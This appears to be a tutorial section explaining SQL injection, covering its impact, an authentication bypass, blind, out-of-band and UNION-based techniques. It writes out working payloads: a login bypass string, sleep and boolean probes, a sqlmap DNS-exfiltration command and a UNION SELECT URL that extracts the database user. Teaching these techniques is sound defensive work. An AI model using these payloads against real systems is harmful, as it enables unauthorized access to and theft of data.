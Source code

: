 #### 2.1. SQL injection

SQL injection occurs when malicious user input breaks the original SQL statement to inject 
arbitrary SQL code and manipulate the DBMS. This typically happens when untrusted user-input 
is concatenated (at application layer) with the SQL queries to be executed on the database-server.

When exploited successful, it allows unauthorized retrieval of potentially sensitive data:

- national (GOV domain) databases got leaked in the past using this technique
- one of oldest attacks that still persists nowadays o_O
- users might get their credit-card data/national ID compromised 
- data can be stolen for monetary purposes (dump DB, corrupt DB, ask for money to provide original records)


#### 2.2. Risk and impact

From a business perspective:

- impact is typically – HIGH (can lead to RCE in some edge cases)
- data loss, data corruption (pray BTC for backups; may lead to denial of service)
- once data was tampered with you cannot rely on it anymore (integrity is compromised)
- companies will suffer massively when their assets are vanished 
- sometimes they even go bank-robbed


#### 2.3. Example - intended functionality

Example of POST request for user authentication:

```json
{
   "username" : "peter",
   "password" : "Wj*Fn*7krIS_MGO"
}
```

The MySQL query looks like:

```sql
SELECT * FROM users WHERE username='peter' AND password=hash('Wj*Fn*7krIS_MGO');
```


#### 2.4. Example - SQL injection

Example of POST request for user authentication:

```json
{
   "username" : "admin' AND 1=1-- -",
   "password" : "123"
}
```

The MySQL query looks like:

```sql
SELECT * FROM users WHERE username='admin' AND 1=1-- -' AND password=hash('123');
```
!! This is classic authentication bypass !! :)

Note:

- the SQL meta-character `'` forces the closing of the original query
- continuation of valid but unintended SQL query `AND 1=1`
- followed by MySQL comment `-- -` that tells DBMS to ignore the rest of the original query


#### 2.5. SQL injection types


1. Classic - easy to exploit, uses the same DB communication channel:
  - error-based: attacker relies on DBMS errors to extract data
  - union-based: uses UNION SELECT to combine extraction of DB results

2. Blind – attacker monitors view states according to malicious input:
  - time based: 
    - `page.php?id=3' AND sleep(5)-- -` (will delay HTTP response with 5+ seconds)

  - boolean based - attacker tries different payloads until output changes:
    - `page.php?id=-3' OR 1=1-- -` (evaluated as `true`)
    - `page.php?id=3' AND 1=2-- -` (evaluated as `false`)

  - arithmetic:
    - `page.php?id=3` returns same as `page.php?id=4-1`
    - `+` should always be URL encoded `%2b` - otherwise it means `[SPACE]` in the HTML request

3. Out-of-channel (data cannot be leaked through the same HTTP/application channel - SSRF like):
   - read/write file
   - DNS channel `sqlmap ... --dns-domain opendns.online`
   - FTP/email


#### 2.6. SQL injection - `UNION` based exfiltration

In SQL injection attacks, `UNION SELECT` & `ORDER BY` statements can be used to find the column index that exfiltrates data.

a) `SELECT ... FROM ... ORDER BY 3` - find the correct number of columns
b) `SELECT ... FROM ... UNION SELECT 1,2,3` - look for one (or more) of the column numbers to show up on the page

Note: if no. `2` appears in the response, the second column can be used for retrieval of data.

Also, at first we don't know what the original SQL select statement is, but we can iterate by:
```
UNION SELECT 1
UNION SELECT 1,2  
UNION SELECT 1,2,3 ...
GROUP BY 1
GROUP BY 2
GROUP BY 3
```
Both techniques can be used in SQLi to determine the number of columns for a valid `UNION SELECT`.

Concrete example:
```
http://example.com/index.php?s=1&l1=-572 UNION SELECT 1,2,3,4,5,6,7,8,9,(CURRENT_USER()),11,12,13,14,15,16,
17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,
54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,
91,92,93,94,95-- -
```
In this example, column no. `10` (gets displayed in the HTTP response) was used to exfiltrate the 
database user of the web application.

